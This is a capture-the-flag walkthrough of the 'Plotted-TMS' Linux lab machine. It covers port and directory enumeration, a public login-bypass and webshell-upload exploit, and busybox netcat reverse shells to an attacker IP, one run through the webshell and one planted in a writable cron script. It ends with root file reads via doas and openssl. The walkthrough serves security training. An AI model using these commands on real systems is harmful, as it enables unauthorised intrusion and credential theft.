


# Plotted-TMS

### Typology: _Linux_

--- 

we started as always with nmap:
```bash
nmap -sC -sV -p- --min-rate=1100 10.10.205.50

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Summarize:

| **_Port_** |                                         **_Description_**                                        |
|:----------:| ------------------------------------------------------------------------------------------------ |
| Port 22    | SSH service is open but we don't have any credentials|
| Port 80    | HTTP service Apache v2.4.41                                            |
| Port 445   | HTTP service Apache v2.4.41                                            |

> keep attention 445 is not SMB

### 80:



A default Apache webpage we should use feroxbuster to enumerate some dirs:
```bash
feroxbuster -u http://10.10.205.50/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,py,js,html,pdf 

301      GET        9l       28w      312c http://10.10.205.50/admin => http://10.10.205.50/admin/
200      GET        1l        1w       81c http://10.10.205.50/admin/id_rsa
200      GET        1l        1w       25c http://10.10.205.50/shadow
```
- /admin/id_rsa contains = `VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE` = `Trust me it is not this easy..now get back to enumeration :D`

- /shadow contains = `bm90IHRoaXMgZWFzeSA6RA==` = `not this easy :D`

The port 80 only contains rabbitholes

### 445:



another apache webpage also this time we can use feroxbuster:
```bash
feroxbuster -u http://10.10.205.50:445/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,py,js,html,pdf

301      GET        9l       28w      322c http://10.10.205.50:445/management => http://10.10.205.50:445/management/
500      GET        5l       19w      229c http://10.10.205.50:445/management/home.php
200      GET        1l      196w     1836c http://10.10.205.50:445/management/about.html
301      GET        9l       28w      330c http://10.10.205.50:445/management/uploads => http://10.10.205.50:445/management/uploads/
301      GET        9l       28w      328c http://10.10.205.50:445/management/pages => http://10.10.205.50:445/management/pages/
200      GET       34l      144w     9528c http://10.10.205.50:445/management/uploads/1629421080_tl-logo.png
200      GET       21l      137w     9761c http://10.10.205.50:445/management/uploads/1624240500_avatar.png
200      GET       46l      242w    20494c http://10.10.205.50:445/management/uploads/1629336240_avatar.jpg
500      GET       11l      105w      990c http://10.10.205.50:445/management/pages/sample_102.php
500      GET       11l       50w      616c http://10.10.205.50:445/management/pages/sample_post.php
200      GET       14l       31w     2832c http://10.10.205.50:445/management/uploads/drivers/1.jpg
500      GET       11l      111w      993c http://10.10.205.50:445/management/pages/sample_101.php
200      GET      517l     2752w   209674c http://10.10.205.50:445/management/uploads/1629334140_traffic_bg.jpg
301      GET        9l       28w      328c http://10.10.205.50:445/management/admin => http://10.10.205.50:445/management/admin/
```
 we have /management let's take a look:

 

 There is also a login button but we don't have any credentials at this point we should use google and search some vulnerabilities

### Webshell:

[ExploitDB](https://www.exploit-db.com/exploits/50221) has a POC written in python2 we can copy and save the source code and then run it with the following commands:

> I also tried this [POC](https://www.exploit-db.com/exploits/50244) in python3 but it doesn't work

```bash
python2 poc #the script is intercative

Url: http://<ip target machine>:445/management 

[+] Bypass Login
[+] Upload Shell
[+] Exploit Done!
```

> At this point if you write a bash command the script will throw an error bu there is no problem because the webshell has already been uploaded

Visit the following URL: `http://<ip target machine>:445/management/uploads/1705077300_evil.php?cmd=ls` will prompt ls output, good we can run a busybox command in order to gain a pwncat shell:

listener:
```bash
python3 -m pwncat -lp 8888
```

Modify the URL in this manner: `http://<ip target machine>:445/management/uploads/1705077300_evil.php?cmd=busybox%20nc%2010.8.98.143%208888%20-e%20bash` anc click enter to receive the callback.

### Privesc User:

The command `cat /etc/crontab` prompt:
```bash
* *     * * *   plot_admin /var/www/scripts/backup.sh
```
Cronjob who run a backup.sh with the command `ls -la` we can see that we have the rights to modify the script so:

> I didn't find immediately the cronjob because I ran other commands with the aim of enumerating

listener:
```bash
python3 -m pwncat -lp 8889
```

```bash
nano backup.sh

#|/bin/bash
busybox nc 10.8.98.143 8889 -e bash

chmod +x bakcup.sh
```
We're plot_admin and we can retrieve the user flag

### Privesc Root:

This time we can run `Linpeas` in order to enumerating.

Linpeas find an interesting line `permit nopass plot_admin as root cmd openssl` in the __"/etc/doas.conf"__ basically plot_admin with doas comman can run openssl as root without the password,
a quick search on [GTFObins](https://gtfobins.github.io/gtfobins/openssl/#file-read) there is the file read section where we can read the /root folder:
```bash
LFILE=/root/root.txt

doas openssl  enc -in "$LFILE"
```
> nothing prohibits to read /etc/shadow

We can retrieve the root flag.


